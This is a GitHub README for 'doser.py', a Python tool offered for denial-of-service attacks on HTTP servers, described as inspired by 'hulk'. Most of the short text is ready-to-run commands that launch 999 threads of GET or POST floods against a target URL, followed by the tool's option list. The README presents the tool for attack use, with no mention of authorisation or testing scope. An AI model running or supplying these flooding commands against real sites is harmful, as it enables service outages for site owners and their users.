 # doser.py DoS tool for HTTP requests (inspired by hulk but has more functionalities) written in Python: ![](https://raw.githubusercontent.com/Quitten/doser.py/master/doser.jpg) # Examples 999 threads sends GET requests: ```bash python doser.py -t 999 -g 'https://targeted.site.com' ``` 999 threads sends POST requests with json data: ```bash python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}' ``` # Usage usage: doser.py [-h] [-g G] [-p P] [-d D] [-ah AH] [-t T] optional arguments: -h, --help show this help message and exit -g Specify GET request. Usage: -g '< url >' -p Specify POST request. Usage: -p '< url >' -d Specify data payload for POST request -ah Specify addtional header -t Specify number of threads to be used # TODO: Rewrite to Golang :)
